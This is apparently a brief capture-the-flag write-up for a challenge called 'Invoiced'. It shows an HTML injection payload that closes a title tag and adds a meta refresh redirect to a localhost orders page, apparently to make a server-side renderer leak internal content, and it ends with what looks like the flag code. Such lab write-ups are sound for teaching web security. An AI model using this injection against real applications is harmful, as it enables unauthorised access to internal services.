

# Invoiced

- Simply use the meta tag to force the redirect.
- We can fool the cookie by passing `http://127.0.0.1:5000` as the redirection target

  ```html
  Name:
  </title><meta http-equiv="refresh" content="1; url='//127.0.0.1:5000/orders'>
  ```

  Discount code: FREEZTUFSSZ1412

  
